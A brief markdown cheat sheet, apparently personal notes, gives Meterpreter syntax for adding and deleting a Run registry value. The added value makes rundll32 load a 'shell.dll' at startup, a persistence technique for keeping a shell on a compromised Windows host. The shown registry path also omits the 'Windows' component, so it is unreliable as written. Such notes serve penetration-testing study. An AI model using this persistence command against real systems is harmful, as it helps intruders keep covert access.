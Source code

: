 # Metasploit

## 01 - Add Registry Key Syntax

```
meterpreter > reg setval [-r <target_IP>] -k HKLM\\SOFTWARE\\Microsoft\\CurrentVersion\\Run -v <value> -t reg_sz -d "rundll32.exe C:\path\to\shell.dll,ExecDLL"
```

## 02 - Delete Registry Key Syntax

```
meterpreter > reg deleteval [-r <target_IP>] -k HKLM\\SOFTWARE\\Microsoft\\CurrentVersion\\Run -v <value>
```